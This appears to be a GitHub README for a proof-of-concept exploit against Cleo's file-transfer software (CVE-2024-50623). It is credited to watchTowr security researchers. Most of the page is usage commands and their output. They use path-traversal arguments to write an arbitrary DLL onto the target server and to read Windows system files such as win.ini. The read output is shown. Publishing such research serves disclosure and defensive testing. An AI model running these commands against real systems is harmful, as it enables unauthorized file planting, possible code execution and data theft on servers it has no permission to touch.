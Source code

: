 # CVE-2024-50623
Cleo Unrestricted file upload and download PoC (CVE-2024-50623)


#### Arbitrary File Write

```
python CVE-2024-50623.py --target http://192.168.1.18:5080/Synchronization --action write --what poc.dll --where "..\..\..\..\poc.dll"
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        CVE-2024-50623.py
        (*) Cleo Unrestricted file upload and download vulnerability (CVE-2024-50623)

          - Sonny and Sina Kheirkhah (@SinSinology) of watchTowr (sina@watchTowr.com)

        CVEs: [CVE-2024-50623]
[INFO] File written successfully

```

#### Arbitrary File Read

```
python CVE-2024-50623.py --target http://192.168.1.18:5080/Synchronization --action read --what CVE-2024-50623.py --where "..\..\windows\win.ini"
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        CVE-2024-50623.py
        (*) Cleo Unrestricted file upload and download vulnerability (CVE-2024-50623)

          - Sonny and Sina Kheirkhah (@SinSinology) of watchTowr (sina@watchTowr.com)

        CVEs: [CVE-2024-50623]
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

# Exploit authors

This exploit was written by Sonny and Sina Kheirkhah (@SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber) 


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber

